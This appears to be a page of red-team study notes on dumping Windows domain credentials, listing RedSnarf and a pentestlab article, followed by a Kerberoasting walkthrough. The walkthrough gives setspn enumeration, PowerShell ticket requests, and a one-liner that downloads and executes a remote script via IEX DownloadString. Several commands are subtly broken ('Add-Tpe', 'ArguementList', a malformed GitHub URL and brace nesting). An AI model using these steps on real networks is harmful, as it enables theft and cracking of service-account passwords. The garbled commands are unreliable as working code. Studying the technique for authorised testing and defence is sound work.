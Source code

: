 <figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

{% tabs %}
{% tab title="Tools and Resources" %}
Tools

* [Red Snarf](https://github.com/nccgroup/redsnarf) - RedSnarf is a pen-testing / red-teaming tool by Ed Williams for retrieving hashes and credentials from Windows workstations, servers and domain controllers using OpSec Safe Techniques
* [https://www.kali.org/tools/redsnarf/](https://www.kali.org/tools/redsnarf/)

Resources

* [AD-006 - Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
{% endtab %}

{% tab title="Kerberoasting" %}
Kerberoasting

* Any ticeket can be requested by any user with kerberos, from the domain controller
* Those tickets are encrypted with the NTLM hash of the associated service user.
* If we can guess the password to teh associated service user's NTLM hash, then we now know the password to the actual service account
* Steps:
  * &#x20;List all SPN services. These are the service accounts for which we are going to pull all the kerberos tickets
    * \>setspn -T \[domain] -F -Q \*/\*
  * &#x20;Next we target either a single user SPN or pull all the user Kerberos tickets into our user's memory
    * Single target
      * \>powershell Add-Tpe -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArguementList “HTTP/\[hostname].\[domain].local”
    * All User tickets
      * \>powershell Add-Tpe -AssemblyName System.IdentityModel; IEX (New-Object Net.WebClient).DownloadString("https://githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArguementList $\_.ServicePrincipalName}catch{}
    * &#x20;And the powersploit tool to automate this!
      * [https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)